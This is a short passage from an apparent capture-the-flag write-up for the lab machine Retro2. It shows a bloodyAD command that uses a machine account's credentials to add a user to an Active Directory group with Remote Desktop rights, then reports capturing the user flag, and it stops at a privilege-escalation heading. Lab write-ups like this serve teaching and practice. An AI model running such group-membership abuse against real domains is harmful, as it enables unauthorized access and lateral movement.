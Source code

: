 ```sh
$ bloodyAD  -u 'ADMWS01$' -p 'zenon@' -d retro2.vl --dc-ip 10.10.65.246  add  groupMember 'SERVICES'  'ldapreader'  
[+] ldapreader added to SERVICES
```
once `ldapreder` is a member of the group, and the members of the group `SERVICES@RETRO2.VL`` have the capability to create a Remote Desktop Connection with the computer BLN01.RETRO2.VL. we can run our session, 
![Alt text](/images/Retro2/rdp.png)

we got the uer flag !

## Privilege escalation
